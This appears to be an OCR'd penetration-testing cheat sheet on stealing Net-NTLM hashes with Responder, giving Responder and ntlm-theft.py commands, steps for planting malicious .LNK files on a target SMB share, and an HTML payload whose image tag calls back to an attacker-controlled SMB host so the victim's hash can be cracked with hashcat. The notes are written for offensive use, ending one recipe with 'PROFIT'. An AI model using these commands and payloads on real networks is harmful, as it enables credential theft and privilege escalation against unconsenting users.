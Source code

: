 ## Net-NTLM Hash stealing with Responder

## Tools synergizing with Responder: ntlm-theft.py

### Requirements: The user you want to escalate to should react with your malicious file/responder SMB server in a way that it calls back to your responder listener to dump his Net-NTLM hash to crack with hashcat.

### Usage:

#### sudo responder -I tun0 (Turn on responder)

## There are various ways to steal hashes with responder, but they have all similar philosophy behind the technique

### .LNK Files

#### 1) python3 ntlm-theft.py -g all -s OUR_IP -f FOLDER (Generates any malicious file it can make (LNK included) all inside the specified folder name)

#### 2) sudo responder -I tun0 (Start responder)

#### 3) Upload malicious file to the target SMB server/target machine (Depends on the context of the use case your are dealing with)

#### 4) PROFIT

### .CHM Files

#### 1) Create an HTML document that points to your SMB server

#### <html<
####   <body>
####     <img src=\\OUR_IP\share\WHATEVER.png />
####        </body>
#### </html<
